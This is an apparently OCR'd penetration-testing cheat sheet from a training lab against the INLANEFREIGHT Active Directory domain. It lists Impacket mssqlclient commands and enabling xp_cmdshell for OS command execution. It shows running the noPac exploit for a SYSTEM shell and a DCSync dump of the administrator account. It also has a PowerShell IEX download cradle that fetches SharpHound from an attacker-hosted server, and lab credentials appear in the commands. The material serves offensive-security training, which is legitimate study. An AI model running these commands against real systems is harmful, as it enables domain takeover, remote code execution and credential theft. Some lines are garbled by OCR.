 `mssqlclient.py`

> Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host.

`mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`

> Impacket tool used to connect to a MSSQL server from a Linux-based host.

`SQL> help`

> Used to display mssqlclient.py options once connected to a MSSQL server.

`SQL> enable_xp_cmdshell`

> Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host.

`xp_cmdshell whoami /priv`

> Used to enumerate rights on a system using `xp_cmdshell`.

# NoPacCommandDescription`sudo git clone [https://github.com/Ridter/noPac.git`](https://github.com/Ridter/noPac.git%60)

> Used to clone a `noPac` exploit using git. Performed from a Linux-based host.

`sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`

> Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host.

`sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap`

> Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host.

`sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator`

> Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host.

**Transfering Files**

> `sudo python3 -m http.server 8001`
> 
> Starts a python web server for quick hosting of files. Performed from a Linux-basd host.

`"IEX(New-Object Net.WebClient).downloadString('[http://172.16.5.222/SharpHound.exe'](http://172.16.5.222/SharpHound.exe'))"`

> PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host.

`impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/`

> Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host.
